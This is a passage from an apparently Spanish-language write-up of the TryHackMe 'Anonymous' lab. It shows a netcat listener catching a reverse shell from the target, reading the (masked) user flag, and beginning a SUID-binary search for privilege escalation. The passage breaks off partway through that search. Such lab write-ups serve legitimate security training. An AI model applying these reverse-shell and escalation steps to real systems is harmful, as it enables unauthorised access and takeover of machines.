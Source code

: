 ```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Anonymous]
└─$ nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.18.xx.xx] from (UNKNOWN) [10.10.139.26] 59858
bash: cannot set terminal process group (1529): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$ 
namelessone@anonymous:~$ ls -la
ls -la
total 60
drwxr-xr-x 6 namelessone namelessone 4096 May 14  2020 .
drwxr-xr-x 3 root        root        4096 May 11  2020 ..
lrwxrwxrwx 1 root        root           9 May 11  2020 .bash_history -> /dev/null
-rw-r--r-- 1 namelessone namelessone  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 namelessone namelessone 3771 Apr  4  2018 .bashrc
drwx------ 2 namelessone namelessone 4096 May 11  2020 .cache
drwx------ 3 namelessone namelessone 4096 May 11  2020 .gnupg
-rw------- 1 namelessone namelessone   36 May 12  2020 .lesshst
drwxrwxr-x 3 namelessone namelessone 4096 May 12  2020 .local
drwxr-xr-x 2 namelessone namelessone 4096 May 17  2020 pics
-rw-r--r-- 1 namelessone namelessone  807 Apr  4  2018 .profile
-rw-rw-r-- 1 namelessone namelessone   66 May 12  2020 .selected_editor
-rw-r--r-- 1 namelessone namelessone    0 May 12  2020 .sudo_as_admin_successful
-rw-r--r-- 1 namelessone namelessone   33 May 11  2020 user.txt
-rw------- 1 namelessone namelessone 7994 May 12  2020 .viminfo
-rw-rw-r-- 1 namelessone namelessone  215 May 13  2020 .wget-hsts
namelessone@anonymous:~$ cat user.txt
cat user.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
namelessone@anonymous:~$ 
```

Bien, tenemos la flag de user. A por la de root.

## Escalado de privilegios

Tiramos por los clásicos y buscamos enumerar binarios con el bit SUID activado.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Anonymous]
└─$ namelessone@anonymous:~$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
< -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 40152 Oct 10  2019 /snap/core/8268/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/8268/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/8268/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/8268/bin/su
-rwsr-xr-x 1 root root 27608 Oct 10  2019 /snap/core/8268/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/8268/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/8268/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/8268/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/8268/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/8268/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Oct 11  2019 /snap/core/8268/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Jun 10  2019 /snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /snap/core/8268/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 106696 Dec  6  2019 /snap/core/8268/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/8268/usr/sbin/pppd
-rwsr-xr-x 1 root root 40152 Jan 27  2020 /snap/core/9066/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/9066/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/9066/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/9066/bin/su
-rwsr-xr-x 1 root root 27608 Jan 27  2020 /snap/core/9066/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/9066/usr/bin/chfn
```